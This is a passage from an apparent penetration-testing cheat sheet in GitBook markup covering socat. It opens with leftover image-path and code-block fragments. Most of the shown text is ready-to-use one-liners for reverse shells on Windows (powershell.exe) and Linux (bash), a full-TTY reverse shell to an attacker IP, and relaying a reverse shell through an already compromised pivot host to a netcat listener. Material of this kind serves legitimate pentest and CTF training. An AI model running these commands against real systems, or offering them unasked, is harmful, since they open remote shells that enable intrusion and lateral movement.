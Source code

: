 {% endcode %}
{% endtab %}
{% endtabs %}

## Socat

{% tabs %}
{% tab title="Overview" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Connection
socat - TCP4:$IP:80
# Listener
socat TCP4-LISTEN:443 STDOUT
<strong>
</strong><strong># Listener
</strong>socat TCP-L:&#x3C;port> -
# On Windows to connect back
socat TCP:&#x3C;LOCAL-IP>:&#x3C;LOCAL-PORT> EXEC:powershell.exe,pipes
# On Linux
socat TCP:&#x3C;LOCAL-IP>:&#x3C;LOCAL-PORT> EXEC:"bash -li"

# Full TTY shell (Linux)
socat TCP-L:&#x3C;port> FILE:`tty`,raw,echo=0 
socat TCP:&#x3C;attacker-ip>:&#x3C;attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

# If we need a revshell from internal network to be caught on our attacking machine, run this on pivot machine (already compromised)
socat TCP-LISTEN:4646,fork TCP:$ATTACKING_IP:PORT
# On our attacking machine
nc -lvnp 4646
# If there are 5 different interfaces and internal networks for example, we have to use socat on every machine until reach the pivot machine
# and then forward traffic to our attacking machine
# Another alternative is to set up a Netcat listener on the internal target and catch the revshell there

# If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
